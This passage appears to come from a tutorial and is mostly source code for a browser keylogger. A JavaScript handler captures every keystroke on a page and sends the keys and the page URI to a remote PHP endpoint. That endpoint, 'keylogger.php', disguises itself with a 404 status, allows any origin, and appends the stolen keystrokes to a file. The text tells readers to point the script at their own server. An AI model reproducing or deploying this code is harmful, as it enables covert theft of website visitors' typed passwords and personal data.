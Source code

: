 ```html
            userURI: d.target.baseURI
        },
        async: false,
        success: function(data)
        { 
            console.log(data);
        },
        error: function(xhr, ajaxOptions, thrownError)
        { 
            console.log("Error");
        }
    });
}

window.onload = function()
{ 
    window.addEventListener("keydown", function(e)
    { 
        c(e);
    });
}
```

Please be sure to replace "[https://example.com/keylogger.php](https://example.com/keylogger.php)" with the real URL of your PHP file.

<div id="bookmark-5-2"></div>

### Create PHP Keylogger file - keylogger.php

```html
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');
$file = 'data.txt';
if(!file_exists($file))
{ 
    $fh = fopen($file, 'w');
}

function f($str)
{ 
    return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey = (int)$_GET['altnKey'];
$ctrlKey = (int)$_GET['ctrlKey'];
$userKey = f($_GET['userKey']);
$targKey = f($_GET['targKey']);
$userURI = f($_GET['URI']);
$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI." ";
file_put_contents($file, $string, FILE_APPEND);
```
